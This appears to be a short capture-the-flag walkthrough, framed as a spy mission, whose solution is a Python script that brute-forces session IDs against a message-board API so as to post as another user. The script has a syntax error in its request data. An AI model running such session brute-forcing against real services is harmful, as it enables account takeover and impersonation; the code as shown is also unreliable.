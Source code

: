 # Benjamin the Brute
Agent 707, one of the gang, Benjamin Goldleaf, was yesterday overheard by our inside undercover agent talking about posting notices on a secret message board that the gang use to communicate meeting times.

With a bit of detective work we've managed to find the message board and get Bens user details. We want to post a fake message using the API to try and draw one of the more senior gang members out, but we can't get it to work. See if you can.

## Steps
1. Write Python code

```python
import requests, re

URL = "https://bondogge.com/createPost"

sess_id = 0
while True:
    request_html = requests.post(URL, data=("userID": 24, "sessID": str(sess_id))).text

    if not re.search("Error", request_html):
        print(request_html)
        break

    sess_id += 1
```

![python code](/assets/screenshots/hq-11-BenjamintheBrute.png)